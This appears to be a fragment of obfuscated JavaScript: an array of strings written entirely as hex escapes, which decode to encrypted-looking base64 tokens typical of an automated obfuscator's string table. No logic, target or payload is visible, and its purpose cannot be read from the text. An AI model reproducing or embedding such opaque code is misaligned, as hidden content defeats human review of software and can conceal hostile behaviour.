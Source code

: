 '\x62\x43\x50\x43\x74\x47\x77\x78', '\x42\x63\x4b\x6d\x77\x70\x37\x43\x69\x63\x4f\x51\x4a\x51\x50\x44\x69\x47\x42\x38\x77\x36\x38\x52', '\x49\x33\x30\x50\x77\x72\x2f\x43\x6e\x6e\x55\x41\x77\x72\x49\x52\x77\x70\x4c\x43\x6e\x4d\x4f\x55\x77\x36\x6e\x43\x6b\x43\x58\x43\x6f\x52\x66\x44\x67\x73\x4f\x57\x77\x6f\x2f\x44\x76\x73\x4b\x47', '\x77\x36\x54\x43\x6a\x33\x6f\x52\x77\x6f\x48\x43\x69\x43\x7a\x44\x69\x77\x3d\x3d', '\x77\x72\x7a\x44\x69\x54\x7a\x44\x75\x38\x4f\x56\x56\x73\x4b\x52\x65\x48\x48\x44\x6a\x54\x31\x4f\x4d\x6b\x2f\x43\x70\x63\x4b\x4e\x77\x35\x4e\x6b\x64\x41\x44\x44\x76\x48\x33\x43\x6c\x73\x4b\x31', '\x61\x73\x4f\x71\x77\x6f\x73\x76\x77\x72\x73\x3d', '\x77\x34\x7a\x43\x68\x45\x6a\x43\x6d\x38\x4b\x70\x77\x72\x44\x44\x72\x38\x4b\x41\x77\x72\x33\x43\x68\x51\x3d\x3d', '\x4e\x4d\x4f\x48\x77\x72\x77\x3d', '\x77\x35\x68\x6a\x61\x45\x76\x43\x67\x4d\x4b\x69\x41\x6c\x38\x72\x42\x77\x3d\x3d', '\x77\x34\x41\x68\x53\x38\x4f\x6a\x77\x36\x31\x35\x77\x72\x44\x44\x68\x56\x6c\x41\x77\x37\x4e\x68', '\x54\x63\x4b\x37\x63\x4d\x4f\x6a\x77\x70\x55\x3d', '\x77\x36\x50\x44\x76\x38\x4f\x32\x77\x72\x78\x6b\x4d\x63\x4b\x51\x77\x37\x46\x4e\x54\x7a\x41\x57\x61\x77\x3d\x3d', '\x51\x57\x33\x43\x67\x52\x35\x4c', '\x77\x72\x72\x44\x6a\x53\x50\x44\x74\x63\x4f\x61\x51\x77\x3d\x3d', '\x58\x73\x4f\x46\x77\x35\x6a\x44\x6f\x73\x4b\x53', '\x77\x34\x6e\x44\x75\x47\x55\x64\x66\x47\x66\x44\x67\x73\x4f\x31\x41\x46\x4c\x44\x70\x4d\x4f\x4f\x77\x34\x66\x44\x75\x38\x4f\x6a\x77\x36\x77\x3d', '\x77\x36\x39\x49\x58\x53\x7a\x43\x70\x38\x4b\x31\x49\x57\x49\x53\x64\x4d\x4f\x43\x77\x72\x4c\x43\x6c\x73\x4f\x2b\x58\x67\x3d\x3d', '\x77\x37\x4d\x6e\x77\x72\x67\x58\x77\x6f\x37\x43\x6b\x67\x3d\x3d', '\x77\x37\x4d\x77\x77\x6f\x59\x42\x77\x70\x6a\x43\x6f\x30\x58\x43\x6a\x4d\x4f\x64\x5a\x6e\x59\x59\x77\x6f\x33\x43\x68\x78\x64\x69\x77\x72\x76\x44\x6d\x73\x4b\x30\x77\x6f\x56\x4c\x42\x41\x3d\x3d', '\x77\x37\x6f\x36\x59\x6b\x6c\x67\x4d\x33\x50\x44\x6d\x33\x2f\x43\x69\x4d\x4f\x35\x48\x43\x74\x49\x46\x77\x63\x50\x77\x34\x44\x43\x6b\x41\x3d\x3d', '\x50\x69\x6a\x43\x67\x4d\x4b\x4e\x53\x54\x48\x44\x6c\x6e\x50\x44\x6a\x73\x4b\x57\x77\x6f\x50\x44\x75\x41\x3d\x3d', '\x77\x35\x72\x44\x71\x63\x4b\x36\x58\x4d\x4b\x2f\x77\x70\x48\x43\x75\x4d\x4f\x73\x77\x70\x2f\x43\x67\x44\x41\x5a\x77\x72\x41\x37\x4e\x63\x4f\x62\x77\x6f\x7a\x43\x73\x56\x38\x70\x65\x41\x70\x59\x52\x7a\x34\x65\x61\x73\x4f\x47\x42\x77\x3d\x3d', '\x77\x35\x72\x44\x74\x6d\x67\x59\x63\x41\x3d\x3d', '\x42\x42\x63\x53', '\x4a\x38\x4b\x42\x41\x44\x30\x78\x77\x37\x31\x61\x77\x35\x5a\x68', '\x4a\x4d\x4b\x4a\x47\x7a\x45\x43\x77\x36\x56\x65\x77\x35\x78\x67\x66\x51\x6a\x44\x6e\x4d\x4f\x46\x77\x34\x72\x44\x69\x63\x4b\x7a\x77\x72\x63\x44\x77\x37\x7a\x43\x6c\x73\x4f\x4b\x77\x70\x4e\x72\x77\x71\x52\x4b\x45\x4d\x4f\x44', '\x45\x38\x4b\x50\x77\x6f\x51\x3d', '\x63\x4d\x4b\x55\x77\x72\x66\x44\x72\x63\x4f\x46\x63\x33\x30\x3d', '\x77\x37\x6f\x36\x77\x72\x38\x44\x77\x6f\x37\x43\x69\x51\x3d\x3d', '\x50\x63\x4b\x42\x41\x7a\x77\x4b\x77\x37\x4d\x45\x77\x35\x52\x2b\x50\x42\x72\x44\x6b\x63\x4f\x63\x77\x37\x6e\x44\x69\x4d\x4b\x30\x77\x72\x63\x3d', '\x55\x6e\x54\x43\x68\x42\x68\x61\x77\x35\x73\x3d', '\x77\x37\x50\x43\x71\x41\x68\x64\x77\x35\x44\x43\x6b\x4d\x4f\x73\x77\x6f\x56\x76\x77\x6f\x45\x3d', '\x77\x37\x72\x43\x70\x52\x46\x57\x77\x35\x62\x43\x6e\x63\x4f\x4d\x77\x6f\x4a\x30\x77\x35\x7a\x43\x6b\x6b\x48\x43\x73\x38\x4b\x74\x4b\x4d\x4b\x44\x77\x70\x66\x44\x6c\x4d\x4b\x79\x77\x6f\x63\x54\x77\x70\x6c\x59\x77\x71\x48\x43\x70\x67\x54\x44\x6f\x4d\x4b\x30\x77\x71\x66\x43\x6d\x77\x70\x41\x77\x71\x4a\x48\x77\x35\x30\x6e\x77\x34\x70\x59\x77\x37\x73\x3d', '\x77\x37\x37\x44\x6a\x4d\x4f\x30\x44\x38\x4b\x6c', '\x66\x47\x6e\x43\x75\x63\x4b\x4e\x4a\x77\x6e\x44\x68\x38\x4b\x4a\x55\x63\x4f\x42\x77\x34\x73\x4f\x4b\x77\x3d\x3d', '\x61\x32\x6a\x43\x76\x63\x4b\x52\x41\x68\x30\x3d', '\x49\x77\x38\x69\x77\x71\x41\x43', '\x77\x34\x48\x43\x69\x6c\x44\x43\x6e\x4d\x4b\x72\x77\x72\x4c\x44\x72\x38\x4b\x47\x77\x71\x44\x44\x68\x63\x4b\x41\x47\x73\x4b\x6f\x77\x70\x78\x58\x77\x72\x45\x52\x49\x38\x4b\x6c\x77\x37\x2f\x44\x75\x63\x4b\x73\x45\x73\x4f\x67\x77\x72\x4a\x43\x77\x70\x50\x43\x68\x57\x78\x33\x64\x52\x4c\x44\x75\x73\x4b\x50\x77\x70\x30\x55\x77\x36\x41\x77\x64\x41\x3d\x3d', '\x61\x63\x4b\x4f\x77\x72\x48\x44\x74\x73\x4b\x54\x77\x34\x31\x69\x61\x52\x50\x43\x75\x38\x4b\x4b\x77\x71\x7a\x43\x6f\x77\x3d\x3d', '\x77\x37\x62\x43\x74\x67\x5a\x52\x77\x35\x58\x43\x6a\x77\x3d\x3d', '\x45\x63\x4b\x4c\x57\x55\x45\x7a', '\x77\x35\x4a\x6e\x61\x45\x76\x43\x68\x4d\x4b\x6d\x49\x6b\x6b\x70\x54\x43\x67\x7a\x77\x36\x52\x64\x77\x34\x51\x2f\x44\x38\x4b\x47\x77\x6f\x4c\x44\x69\x54\x6e\x44\x6d\x56\x67\x47\x4c\x7a\x7a\x44\x6a\x73\x4b\x74\x77\x72\x59\x36\x65\x42\x44\x44\x70\x4d\x4f\x73\x77\x37\x72\x44\x6d\x73\x4f\x63\x4f\x68\x59\x3d', '\x77\x71\x64\x36\x77\x72\x7a\x44\x67\x63\x4f\x6d\x53\x51\x67\x79\x77\x35\x6a\x43\x6b\x73\x4f\x43\x61\x4d\x4b\x75', '\x41\x38\x4b\x37\x77\x70\x7a\x43\x6b\x73\x4f\x5a\x4d\x77\x3d\x3d', '\x77\x35\x62\x44\x75\x73\x4b\x74\x57\x38\x4b\x38', '\x77\x37\x37\x43\x67\x56\x38\x4d\x77\x70\x54\x43\x67\x44\x62\x44\x67\x31\x62\x44\x70\x38\x4b\x34\x49\x79\x48\x44\x6b\x6d\x74\x64\x77\x37\x4c\x44\x6e\x73\x4b\x42\x77\x70\x66\x44\x6a\x52\x42\x52\x46\x63\x4b\x4d\x77\x6f\x68\x41\x64\x73\x4b\x31\x66\x38\x4b\x30\x49\x63\x4f\x49\x77\x6f\x72\x44\x75\x41\x2f\x44\x76\x38\x4f\x72\x77\x6f\x4d\x64\x4e\x67\x70\x4d\x77\x70\x48\x44\x6f\x54\x49\x3d', '\x46\x58\x31\x48\x4f\x63\x4b\x55\x77\x36\x51\x3d', '\x77\x71\x48\x43\x69\x57\x54\x43\x6f\x41\x50\x44\x6f\x42\x77\x3d', '\x77\x70\x33\x44\x69\x73\x4b\x6d\x4e\x4d\x4b\x56\x77\x36\x76\x43\x6c\x6c\x6a\x43\x68\x6d\x38\x53\x44\x7a\x66\x43\x72\x6a\x51\x44\x4e\x79\x55\x6b\x45\x4d\x4b\x39\x42\x4d\x4f\x4f\x77\x6f\x68\x6b', '\x48\x6d\x52\x59\x49\x38\x4b\x48\x77\x37\x5a\x76\x51\x38\x4b\x76\x46\x6d\x48\x44\x73\x69\x42\x73\x77\x70\x59\x3d', '\x56\x58\x37\x43\x6a\x42\x31\x4c',